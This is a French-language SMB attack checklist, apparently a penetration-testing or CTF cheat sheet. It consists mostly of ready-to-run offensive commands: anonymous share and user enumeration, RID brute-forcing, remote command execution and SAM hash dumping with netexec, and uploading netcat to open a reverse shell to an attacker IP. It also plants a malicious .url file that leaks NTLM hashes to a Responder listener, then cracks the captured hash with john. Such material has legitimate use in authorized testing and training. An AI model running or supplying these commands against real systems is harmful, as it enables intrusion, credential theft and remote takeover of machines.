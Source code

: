 # **SMB Enumeration & Exploitation Checklist**  

## 🔍 **Énumération & Connexion**
```bash
# Tester la session null
smbclient -N -U "" -L \\<IP>
smbclient -N -U "test" -L \\<IP>
smbclient -N -U "Guest" -L \\<IP>

# Télécharger tous les fichiers d'un partage SMB
nxc smb $IP -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True

# Énumérer les partages SMB
netexec smb $IP -u '' -p '' --shares

# Lister les utilisateurs SMB
netexec smb $IP -u '' -p '' --users | grep -E "SMB\s+.*\s+[A-Za-z]+\.[A-Za-z]+" | awk '{print $5}' > users.txt

# Bruteforce des RID pour découvrir des utilisateurs supplémentaires
netexec smb $IP -u '' -p '' --rid-brute

# Tester pour une exécution de commande à distance (RCE)
nxc smb $IP -u 'Administrator' -p 'P@ssw0rd' -x whoami
```

## 🔓 **Privilèges & Exécution de commandes**
```bash
# Récupérer les hashes du SAM
nxc smb $IP -u 'UserName' -p 'PASSWORDHERE' --sam

# Extraire les hashes et les noms d'utilisateurs de secretsdump
grep -oP '^[^:]+:\d+:[a-f0-9]{32}:[a-f0-9]{32}' secretsdump.txt | awk -F: '{print $1}' > secretsdumpusernames.txt
grep -oP '^[^:]+:\d+:[a-f0-9]{32}:[a-f0-9]{32}' secretsdump.txt | awk -F: '{print $4}' > secretsdumphashes.txt
```

## 📂 **Transfert de fichiers**
```bash
# Télécharger des fichiers depuis un partage SMB
wget https://github.com/SnaffCon/Snaffler/releases/download/1.0.184/Snaffler.exe

# Copier un fichier vers un partage SMB
smbclient \\\\$IP\\share -U "$USER" -P "$PASSWORD" -c "put /path/to/local/file /remote/path/remote_file.txt"
```

## 🚀 **Reverse Shell**
```bash
# Déposer un reverse shell sur la cible via SMB
nxc smb $IP -u '$USER' -p '$PASSWORD' --put-file /path/to/nc.exe /tmp/nc.exe

# Lancer un reverse shell via netcat
nxc smb $IP -u '$USER' -p '$PASSWORD' -x "C:\tmp\nc.exe $ATTACKER_IP 1234 -e cmd"
```

## 🔧 **Exploitation supplémentaire (Générer URL malveillante et NTLM Hashing)**
<details>
<summary>READ WRITE perms</summary>

```bash
# Cloner hashgrab pour capturer des hashes NTLM
git clone https://github.com/xct/hashgrab.git
sudo responder -I tun0
python3 hashgrab.py <ip> <output>
```

Créer un fichier URL malveillant :

```bash
[InternetShortcut]
URL=Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\<kali_url>\%USERNAME%.icon
IconIndex=1
```

Lancer responder :

```bash
responder -I tun0 -wv
```

Ensuite, sur la machine cible, utiliser smbclient pour télécharger l'URL malveillante :

```bash
smb: \> put shell.url
```

Après avoir capturé le hash NTLM via Responder, vous pouvez l'analyser avec cette commande :

```bash
# Exemple de capture NTLMv2-SSP hash
[SMB] NTLMv2-SSP Client   : 192.168.212.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:1122334455667788:3E3707D87E6C52CBAD58B5B494F109A0:...
```

Vous pouvez cracker le hash avec la commande suivante :

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash
```
</details>

## 🚨 **Autres attaques SMB**
```bash
# Tester pour l'accès à distance via SMB aux répertoires partagés
smbclient -N -U "user" -L \\<IP>
```